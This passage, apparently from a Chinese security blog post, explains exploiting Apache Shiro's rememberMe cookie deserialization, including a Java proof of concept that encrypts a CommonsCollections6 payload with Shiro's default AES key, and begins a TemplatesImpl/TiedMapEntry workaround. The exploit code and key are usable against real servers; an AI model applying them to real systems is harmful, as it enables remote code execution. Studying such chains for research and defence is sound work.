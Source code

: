 ![image-20221004110620002](https://tuchuang.huamang.xyz/img/image-20221004110620002.png)

> 得到rememberMe的cookie值 --> Base64解码 --> AES解密 --> 反序列化



## 构建思路

那么这样的话，构造POC就非常简单了，只需要base64解码Shiro的key，然后对序列化数据进行AES加密即可得到exp

比如这个demo

```java
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.util.Base64;

public class attack1 {
    public static void main(String[] args) throws Exception {
        byte[] payload = new CommonsCollections6().getPayload("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payload, key);
        System.out.printf(ciphertext.toString());
    }
}
```

但是这个payload是打不通的，报错了

![image-20221004133800889](https://tuchuang.huamang.xyz/img/image-20221004133800889.png)

具体原因是因为不能加载`Transformer[]`，细节原因不深入探究

总的来说就是：如果shiro反序列化流中包含**非Java自身的数组**，则会出现无法加载类的错误。这就 解释了为什么CommonsCollections6无法利用了，因为其中用到了Transformer数组。

那么我们如何构造才能避免使用Transformer数组呢，这就用到了前面学的TemplatesImpl

上一篇文章我们介绍CC3的时候，用到了TemplatesImpl和InvokerTransformer，但是还是需要用到Transformer数组的

![image-20221004115101904](https://tuchuang.huamang.xyz/img/image-20221004115101904.png)

这里有一篇博客介绍到了一个方法去绕过：[wh1s3p1g](https://www.anquanke.com/post/id/192619)

这里就涉及到了我们[CC6](https://blog.huamang.xyz/cc6/#cc6)的一个关键类`TiedMapEntry`

```java
public class TiedMapEntry implements Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
		// ...
    public Object getValue() {
        return this.map.get(this.key);
    }
		// ...
    public int hashCode() {
        Object value = this.getValue();
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
```